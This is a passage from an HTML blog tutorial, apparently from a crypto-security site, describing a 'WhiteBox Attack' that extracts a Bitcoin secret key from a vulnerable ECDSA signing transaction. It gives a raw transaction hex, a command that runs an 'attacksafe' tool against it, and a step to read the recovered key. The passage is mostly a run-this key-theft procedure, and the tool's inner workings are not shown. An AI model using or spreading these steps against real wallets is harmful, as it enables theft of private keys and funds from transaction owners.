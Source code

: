 

<p>then choose<code>&nbsp;-tool: whitebox_attack</code></p>



<p>To get the secret key from a vulnerable ECDSA signing transaction, let’s add the data&nbsp;<code>RawTX</code>to a text document and save it as a file<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>0100000001a60ae2965c16c0a72bb764ec4f6f0dc6acfd3af3f49a73c06ae48ddfe4a7b76b020000006a473044022015e3f8b110a2baf09ddcce139644888bda303cd4d0a37c872e5faceb57abff0102202d2ca770322bfad7a32ae2568869512f71b8c40a561a7109a54f2799953342e3012102ae4a7601c546fef42deb70516d41645dc58613689754936efdd4850e186d8320ffffffff019e020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity">



<h2>Launch&nbsp;<code>-tool whitebox_attack</code>using software<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity">



<pre class="wp-block-code"><code>./attacksafe -tool whitebox_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img decoding="async" src="./We implement WhiteBox Attack on Bitcoin with differential errors according to the research scheme of Eli Biham and Adi Shamir to extract the secret key - CRYPTO DEEP TECH_files/image-22-1024x276.png" alt="We implement WhiteBox Attack on Bitcoin with differential errors according to the research scheme of Eli Biham and Adi Shamir to extract the secret key" class="wp-image-1594"></figure>



<p>We launched this attack from&nbsp;<code>-tool whitebox_attack</code>and the result was saved to a file<code>SecretKey.txt</code></p>



<p>Now to see the successful result, open the file<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>


